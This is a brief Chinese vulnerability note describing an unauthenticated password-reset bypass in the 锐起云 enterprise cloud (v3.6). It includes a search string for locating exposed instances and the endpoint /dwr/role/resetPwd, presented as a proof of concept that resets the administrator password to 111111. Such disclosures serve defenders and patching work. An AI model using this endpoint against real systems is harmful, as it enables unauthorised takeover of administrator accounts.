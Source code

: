 # 锐起云 resetPwd 登陆绕过漏洞

## 漏洞描述

锐起云是一款企业私有云，旨在帮助企业建立私有云存储和管理系统，帮助企业实现集中管理文档、强化数据安全、打造信息互通、数据驱动的协同办公环境。提升工作效率的同时，使数据真正为企业掌控，全程不改变用户操作习惯，是全新一代企业云盘的代表。锐起云存在前台未授权修改密码登陆后台漏洞，攻击者可以通过访问特定接口重置管理员密码。

## 漏洞影响

锐起云 v3.6

## 网络测绘

```
"锐起云"
```

## 漏洞复现

登录页面

![image-20231115100316838](images/image-20231115100316838.png)

poc，将密码重置为111111

```
/dwr/role/resetPwd
```

![image-20231115100422870](images/image-20231115100422870.png)
